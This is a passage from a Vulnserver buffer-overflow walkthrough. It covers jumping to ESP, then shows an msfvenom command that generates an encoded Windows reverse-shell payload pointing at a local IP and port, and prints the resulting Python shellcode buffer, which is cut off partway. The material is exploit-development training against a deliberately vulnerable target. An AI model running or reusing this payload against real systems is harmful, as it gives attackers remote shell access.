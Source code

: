 After crashing the program, we can see that we have jumped into ESP and ran our junk data

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/jump-reg.png" style="width:40%">
</div>

So, we have successfully redirected our program flow

Next we have to point it with our shellcode

## Generating Shellcode

Shellcode is a piece of code performs specific action, which is typically written to directly manipulate processor registers to set them up for various system calls made with opcodes

Lets generate the shellcode for our reverse shell using ```msfvenom```,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.116.128 LPORT=9876 -f python -e x86/shikata_ga_nai -b "\x00"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1712 bytes
buf =  b""
buf += b"\xda\xd2\xbe\x39\xe1\xbc\xa2\xd9\x74\x24\xf4\x5d\x2b"
buf += b"\xc9\xb1\x52\x31\x75\x17\x83\xed\xfc\x03\x4c\xf2\x5e"
buf += b"\x57\x52\x1c\x1c\x98\xaa\xdd\x41\x10\x4f\xec\x41\x46"
buf += b"\x04\x5f\x72\x0c\x48\x6c\xf9\x40\x78\xe7\x8f\x4c\x8f"
buf += b"\x40\x25\xab\xbe\x51\x16\x8f\xa1\xd1\x65\xdc\x01\xeb"
buf += b"\xa5\x11\x40\x2c\xdb\xd8\x10\xe5\x97\x4f\x84\x82\xe2"
buf += b"\x53\x2f\xd8\xe3\xd3\xcc\xa9\x02\xf5\x43\xa1\x5c\xd5"
buf += b"\x62\x66\xd5\x5c\x7c\x6b\xd0\x17\xf7\x5f\xae\xa9\xd1"
buf += b"\x91\x4f\x05\x1c\x1e\xa2\x57\x59\x99\x5d\x22\x93\xd9"
buf += b"\xe0\x35\x60\xa3\x3e\xb3\x72\x03\xb4\x63\x5e\xb5\x19"
buf += b"\xf5\x15\xb9\xd6\x71\x71\xde\xe9\x56\x0a\xda\x62\x59"
buf += b"\xdc\x6a\x30\x7e\xf8\x37\xe2\x1f\x59\x92\x45\x1f\xb9"
buf += b"\x7d\x39\x85\xb2\x90\x2e\xb4\x99\xfc\x83\xf5\x21\xfd"
buf += b"\x8b\x8e\x52\xcf\x14\x25\xfc\x63\xdc\xe3\xfb\x84\xf7"
buf += b"\x54\x93\x7a\xf8\xa4\xba\xb8\xac\xf4\xd4\x69\xcd\x9e"
buf += b"\x24\x95\x18\x30\x74\x39\xf3\xf1\x24\xf9\xa3\x99\x2e"
buf += b"\xf6\x9c\xba\x51\xdc\xb4\x51\xa8\xb7\x7a\x0d\xc6\xc7"
buf += b"\x13\x4c\x26\xee\x77\xd9\xc0\x84\x67\x8c\x5b\x31\x11"
buf += b"\x95\x17\xa0\xde\x03\x52\xe2\x55\xa0\xa3\xad\x9d\xcd"
buf += b"\xb7\x5a\x6e\x98\xe5\xcd\x71\x36\x81\x92\xe0\xdd\x51"
buf += b"\xdc\x18\x4a\x06\x89\xef\x83\xc2\x27\x49\x3a\xf0\xb5"
buf += b"\x0f\x05\xb0\x61\xec\x88\x39\xe7\x48\xaf\x29\x31\x50"
buf += b"\xeb\x1d\xed\x07\xa5\xcb\x4b\xfe\x07\xa5\x05\xad\xc1"
buf += b"\x21\xd3\x9d\xd1\x37\xdc\xcb\xa7\xd7\x6d\xa2\xf1\xe8"
buf += b"\x42\x22\xf6\x91\xbe\xd2\xf9\x48\x7b\xe2\xb3\xd0\x2a"
buf += b"\x6b\x1a\x81\x6e\xf6\x9d\x7c\xac\x0f\x1e\x74\x4d\xf4"
buf += b"\x3e\xfd\x48\xb0\xf8\xee\x20\xa9\x6c\x10\x96\xca\xa4"
```
